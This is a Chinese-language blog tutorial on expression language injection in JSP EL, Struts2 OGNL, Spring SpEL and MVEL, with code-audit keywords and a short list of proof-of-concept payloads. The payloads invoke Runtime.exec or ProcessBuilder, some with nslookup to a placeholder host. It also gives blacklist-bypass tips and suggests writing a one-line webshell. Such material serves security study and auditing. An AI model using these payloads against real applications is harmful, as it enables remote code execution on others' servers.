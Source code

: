 # 表达式注入初探


## 简介

2013年4月15日Expression Language Injection词条在OWASP上被创建，而这个词的最早出现可以追溯到2012年12月的《Remote-Code-with-Expression-Language-Injection》一文，在这个paper中第一次提到了这个名词。









## 常用的表达式语言



### JSP—JSTL_EL

#### 基础

EL表达式(表达式语言)是一种**在JSP中内置的语言**(也就是说所有的Java Web服务都必然会支持这种表达式。但是由于各家对其实现的不同，也导致某些漏洞可以在一些Java Web服务中成功利用，而在有的服务中则是无法利用)，可以用作用户访问页面的上下文以及不同作用域的对象，取得对象属性值或者执行简单的运算和判断操作：获取数据、执行运算、获取Web开发常用对象、调用Java方法。



**JSP四大作用域：**

- page：只在一个页面保存数据[`javax.servlet.jsp.PageCotent`]
- request：只在一个请求中保存数据[`java.servlet.httpServletRequest`]
- session：在一次会话中保存数据，仅供单个用户使用[`javax.servlet.http.HttpSession`]
- application：在整个服务器中保存数据，全部用户共享[`javax.servlet.ServletContenxt`]



**EL基础语法：**

在JSP中，用`${}`表示此处为EL表达式。

在未指定作用域时，依次向后寻找；

在指定了作用域时，在范围内寻找：如`${requestScope.name}`表示在request作用域范围内获取name变量。



**获取对象属性：**

一种方法，为：`${对象.属性}`，如`${param.name}`

另一种为，：`[]`符号，如：`${param[name]}`，当属性名存在特殊字符时需要使用此方式



**EL表达式也可以实例化Java的内置类：**

```jsp
//如 Runtime.calss会执行系统命令

<body>
    ${Runtime.getRuntime().exec("calc")}
</body>

```



```jsp
<spring:message text="${/"/".getClass().forName(/"java.lang.Runtime/").getMethod(/"getRuntime/",null).invoke(null,null).exec(/"calc/",null).toString()}">
</spring:message>
```





简答来说，EL表达式是Java代码的简化版，用户可以通过可控的输入注入一段EL表达式执行代码。但用户难以控制EL表达式进行表达式注入。





#### 渗透思路

获取webroot路径，exec执行命令echo写入一句话。











### Struts2—OGNL



表达式格式：

```bash
@[类全名（包括包路径）]@[方法名 | 值名]，例如：
@java.lang.String@format('foo %s', 'bar')
```



基本用法：

```java
ActionContext AC = ActionContext.getContext();
Map Parameters = (Map)AC.getParameters();
String expression = "${(new java.lang.ProcessBuilder('calc')).start()}";
AC.getValueStack().findValue(expression))
```



相关漏洞：s2-009、s2-012、s2-013、s2-014、s2-015、s2-016，s2-017、。。。



### Spring—SPEL

SPEL（Spring表达式语言），是Spring框架专有的EL表达式

SpEL使用 `#{…} `作为定界符，所有在大括号中的字符都将被认为是 SpEL表达式，我们可以在其中使用运算符，变量以及引用bean，属性和方法



#### **基本用法：**

```jsp
//在jsp页面中可以使用el表达式代替<%=%>，之间访问java对象。

String expression = "T(java.lang.Runtime).getRuntime().exec(/"calc/")";
String result = parser.parseExpression(expression).getValue().toString();
```

1.使用量表达式：

```java
"#{Hello world}"
```

2.使用java代码new/instance of
```java
Expression exp = parsee.parserExpression("new Spring('hello')");

```

3.使用T(type)

表示java.lang.Class实例：

```java
parse.parseExpression(T(Integer).MAX_VALUE)
```

使用T()运算符会调用类作用域的方法和常量。例如，在SpEL中使用Java的Math类，我们可以像下面的示例这样使用T()运算符：

```java
#{T(java.lang.Math)}
```

T()运算符的结果会返回一个java.lang.Math类对象。




#### **代码审计关键字：**

```
org.springframework.expression.spel.standard
SpelExpressionParser
parserExpress
expression.getValue()
expression.setValue()
...
```







#### SpEL漏洞

Spring为SpEL提供了两套不同的接口，分别是：

- SimpleEvaluationContext（更安全一些，推荐使用）
- StandardEvaluationContext：包含了SpEL的所有功能





**漏洞原因：**

开发人员未对用户输入进行处理就直接通过解析引擎对Spel继续解析。一旦用户能够控制解析的SpEL语句，便可以通过反射的方式构造代码执行的SpEL语句，从而达到RCE的目的。



例如：

```java
import org.springframework.expression.EvaluationContext;
import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;
import org.springframework.expression.spel.support.StandardEvaluationContext;

public class TTTTT {
    public static void main(String []args) throws Exception {
        String expr = "T(Runtime).getRuntime.exec(\"calc.exe\")";

        ExpressionParser  parser = new SpelExpressionParser();
        EvaluationContext evaluationContext = new StandardEvaluationContext();
        Expression expression = parser.parseExpression(expr);
        System.out.println(expression.getValue(evaluationContext));


    }
}

```



![](http://image.xpshuai.cn/img/image-20220120172956738.png)



**常用POC：**

```
${255*255}

T(Thread).sleep(10000)

T(java.lang.Runtime),getRuntime().exec('命令')
T(java.lang.Runtime),getRuntime().exec('nslookup xxxxx.com')

new java.lang.ProcessBuilder("命令").start()
new java.lang.ProcessBuilder("nslookup xxxxx.com").start()

#this.getClass().forName('java.lang.Runtime').getRuntime().exec('nslookup xxxxx.com')
```



需要绕过黑名单校验，对于急于正则的匹配绕过是很简单的：

- 利用反射于拆分关键字构造Payload
- 利用ScriptEngineManner









### Elasticsearch——MVEL



基本用法：

```java
java import org.mvel.MVEL;

public class MVELTest {
    public static void main(String[] args) { String expression = "new java.lang.ProcessBuilder(/"calc/").start();";
    Boolean result = (Boolean) MVEL.eval(expression, vars);
    }
}
```









## 参考文章



[(57条消息) Java 安全-手把手教你SPEL表达式注入_4ct10n-CSDN博客_spel表达式注入](https://blog.csdn.net/qq_31481187/article/details/108025512)

[Spring-data-commons(CVE-2018-1273)漏洞分析 - FreeBuf网络安全行业门户](https://www.freebuf.com/vuls/172984.html)







---

> 作者: [剑胆琴心](http://geoer.cn)  
> URL: https://shuai06.github.io/%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5/  

